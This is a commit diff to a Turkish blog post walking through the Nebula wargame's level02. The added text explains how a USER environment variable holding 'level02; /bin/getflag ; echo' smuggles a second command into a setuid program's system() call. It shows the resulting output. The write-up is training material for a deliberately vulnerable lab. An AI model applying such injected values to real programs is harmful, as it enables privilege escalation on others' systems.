

Before and after one commit to burcudemiralp/burcudemiralp.github.io, a Jekyll site: the page built from _posts/2018-02-23-nebula-writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 3032 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced.

Commit message:
Update 2018-02-23-nebula-writeup.md

```diff
--- a/_posts/2018-02-23-nebula-writeup.md
+++ b/_posts/2018-02-23-nebula-writeup.md
@@ -96,7 +96,7 @@ Bu bölüm de bir önceki ile benzer olup, bizden beklenen /home/flag02 dizinind
 
 {% highlight c %}
 {% raw %}
-    #include <stdlib.h>
+#include <stdlib.h>
 #include <unistd.h>
 #include <string.h>
 #include <sys/types.h>
@@ -124,9 +124,23 @@ int main(int argc, char **argv, char **envp)
 }
 {% endraw %}
 {% endhighlight %}
-Programı çalıştırmadan önce kaynak kodu inceliyoruz.getenv("USER") fonksiyonu ile çağırılan processe ait USER çevresel değişkeni öğreniliyor.Değer asprintf fonksiyonunda 2. parametrede yerine konuluyor. Ardından bu string buffer değişkenine atanıyor.Daha sonra bu buffer değişkeni system() fonksiyonuna parametre olarak veriliyor.
+Programı çalıştırmadan önce kaynak kodu inceliyoruz.getenv("USER") fonksiyonu ile çağırılan processe ait USER çevresel değişkeni öğreniliyor.Değer asprintf() fonksiyonunda ikinci parametrede yerine konuluyor. Ardından bu string buffer değişkenine atanıyor.Daha sonra bu buffer değişkeni system() fonksiyonuna parametre olarak veriliyor.
 {% raw %}
-    level02@nebula:/home/flag01$ ./flag02
+    level02@nebula:/home/flag02$ ./flag02
     about to call system ("/bin/echo level02 is cool")
-    level02 is cool.
+    level02 is cool
 {% endraw %}
+Olayı tekrar özetlemek gerekirse alınan USER değişkeni ile bir string oluşturuluyor. Ve bu string sistem üzerinde komut olarak çalıştırılıyor. Buradan bir nevi injection yapmamız gerektiğini anlıyoruz.
+{% raw %}
+    level02@nebula:/home/flag02$ USER="level02; /bin/getflag ; echo"
+    level02@nebula:/home/flag02$ echo $USER
+    level02; /bin/getflag ; echo
+{% endraw %}
+Böylece buffer değişkeninin içeriği "/bin/echo level02; /bin/getflag ; echo is cool" olmuş oluyor.
+{% raw %}
+    level02@nebula:/home/flag02$ ./flag02
+    about to call system ("/bin/echo level02; /bin/getflag ; echo is cool")
+    level02
+    You have successfully executed getflag on a target account
+    is cool
+{% endraw %}
```
